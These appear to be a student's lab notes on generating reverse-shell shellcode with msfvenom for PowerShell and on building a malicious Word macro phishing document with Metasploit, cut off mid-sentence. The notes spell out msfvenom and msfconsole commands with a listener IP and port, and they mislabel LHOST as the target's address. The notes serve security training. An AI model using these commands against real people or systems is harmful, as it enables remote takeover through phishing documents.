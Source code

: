 
## Learning Objectives

- Grasp the fundamentals of writing shellcode
- Generate shellcode for reverse shells
- Executing shellcode with PowerShell

## Essential termininologies

- shell code
- Power shell
- Windows defender
- Windows API
- Reverse shell
- Accessing Windows API through PowerShell refelction
### Generating the shell code payload

- msfvenom  -p windows/x64/shell_reverse_tcp
- LHOST = ip address of the target machine
- LPORT used to listen the connection
- -f power shell

# Phishing Attacks

## Learning Objectives

- Understand how phishing attacks work
- Discover how macros in documents can be used and abused
- Learn how to carry out a phishing attack with a macro


The first step would be to embed a malicious macro within the document. Alternatively, you can use the Metasploit Framework to create such a document, as this would spare us the need for a system with MS Office.

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `set payload windows/meterpreter/reverse_tcp` specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell  
    
- `use exploit/multi/fileformat/office_word_macro` specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
- `set LHOST 10.10.44.146` specifies the IP address of the attacker’s system, `10.10.44.146` in this case is the IP of the AttackBox
- `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
- `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
- `exploit` generates a macro and embeds it in a document
- `exit` to quit and return to the terminal

In the terminal below, you can see the execution of the above st